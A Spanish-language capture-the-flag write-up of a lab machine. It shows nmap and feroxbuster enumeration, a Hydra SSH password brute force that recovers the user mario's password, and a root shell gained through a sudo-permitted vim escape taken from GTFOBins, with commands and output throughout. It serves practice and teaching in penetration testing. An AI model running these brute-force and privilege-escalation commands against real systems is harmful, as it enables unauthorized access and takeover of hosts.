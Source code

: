 #hydra #password-brute-force #gtfobins #directory-brute-force #abusing-sudo #vim

![](../../../Images/Pasted%20image%2020241008071834.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio **SSH** i un servicio **HTTP** funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 16:49 CEST
Nmap scan report for 172.18.0.2
Host is up (0.000021s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:12:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 16:49 CEST
Nmap scan report for 172.18.0.2
Host is up (0.000042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.90 seconds
```

## Website (80 TCP Port)

En el sitio web no vemos nada interesante pero si hacenmos un ataque de fuerza bruta de directorios nos encontramos con una que nos revela un nombre de usuario-

![](../../../Images/Pasted%20image%2020241008173556.png)

```
feroxbuster -u http://172.18.0.2 -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.18.0.2
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       24l      127w    10359c http://172.18.0.2/icons/openlogo-75.png
200      GET      368l      933w    10701c http://172.18.0.2/
200      GET       39l       78w      927c http://172.18.0.2/secret.php
[####################] - 5s     30005/30005   0s      found:3       errors:0
[####################] - 5s     30000/30000   5738/s  http://172.18.0.2/                      
```
# Usuario Mario



```
> hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.18.0.2 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 17:00:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.18.0.2:22/
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 17:00:35
```



```
> ssh mario@172.18.0.2

The authenticity of host '172.18.0.2 (172.18.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.18.0.2' (ED25519) to the list of known hosts.
mario@172.18.0.2's password:
Linux 91a9d6272033 6.10.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.10.9-1kali1 (2024-09-09) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@91a9d6272033:~$ whoami
mario
```

# Escalada de privilegios

Una vez dentro investigamos los comandos que podemos ejecutar con permisos `sudo` y vemos que podemos ejecutar el binario **vim**.

```
mario@91a9d6272033:~$ sudo -l
[sudo] password for mario:
Matching Defaults entries for mario on 91a9d6272033:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 91a9d6272033:
    (ALL) /usr/bin/vim
```

Si investigamos en la página web de [GTFOBINS](https://gtfobins.github.io/) vemos como podemos conseguir una shell con permisos sudo.

![](../../../Images/Pasted%20image%2020241008162323.png)

```
mario@91a9d6272033:~$ sudo /usr/bin/vim -c ':!/bin/sh'

# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```